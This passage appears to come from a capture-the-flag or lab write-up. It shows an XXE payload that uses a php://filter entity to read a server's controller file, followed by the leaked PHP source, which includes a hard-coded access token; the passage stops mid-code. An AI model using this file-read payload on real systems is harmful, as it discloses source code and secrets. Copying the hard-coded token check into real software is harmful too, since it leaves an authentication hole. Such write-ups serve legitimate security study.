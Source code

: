 ```php
//Decoded Version
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');

Route::load();
Route::run();
```

I knew the structure of the directory so tried reading the controller file where the logic is written

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../controllers/Website.php"> ]>
<data>
	<id>&xxe;</id>
</data>
```

On decoding the output we get

```xml
<?php namespace Controller;

use Model\ExampleModel;

class Website
{

    public static function logout(){
        if( isset($_COOKIE["token"]) ) {
            setcookie('token',null,time()-86400,'/');
        }
        \View::redirect('/login');
    }

    public static function token(){
        if( isset($_GET["token"]) ){
            $token = preg_replace('/([^a-f0-9])/','',strtolower($_GET["token"]));
            if( strlen($token) == 32 ){
                setcookie('token',$token,time()+86400,'/');
            }
        }
        \View::redirect('/');
    }

    public static function login(){
        $data = array(
            'header'    =>  array(
                'title' =>  'Server Manager Login'
            )
        );
        \View::page('login',$data);
    }

    public static function dashboard(){
        if( isset($_COOKIE["token"]) && $_COOKIE["token"] === '1f7f97c3a7aa4a75194768b58ad8a71d'  ) {
            $data = array(
                'header' => array(
                    'title' => 'Server Manager'
```
